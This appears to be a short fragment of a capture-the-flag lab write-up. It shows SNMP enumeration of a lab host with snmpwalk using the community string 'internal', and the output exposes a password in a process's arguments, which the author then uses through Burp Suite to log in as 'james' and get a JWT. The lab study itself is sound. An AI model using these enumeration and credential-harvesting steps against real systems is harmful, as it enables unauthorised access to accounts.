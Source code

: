 
* Test a bit with this api possibilities 
* The JWT above is not working as authorization when we want to list users in the api url.
* As shown below, got an interesting finding enumerating the snmp with snmp-brute and snmpwalk.
* Try to login as james with the password below and see if we succeed.

``` bash
❯ snmpwalk -c internal -v2c 10.10.11.193 > snmp.txt
...

HOST-RESOURCES-MIB::hrSWRunPath.2057 = STRING: "/usr/local/bin/python3"
HOST-RESOURCES-MIB::hrSWRunPath.2058 = STRING: "/usr/local/bin/python3"
HOST-RESOURCES-MIB::hrSWRunParameters.1692 = STRING: "/usr/local/bin/login.sh"
HOST-RESOURCES-MIB::hrSWRunParameters.2228 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
...
```

* Used burpsuite to login as James and works
* We retrieve JWT from james so we may now list users
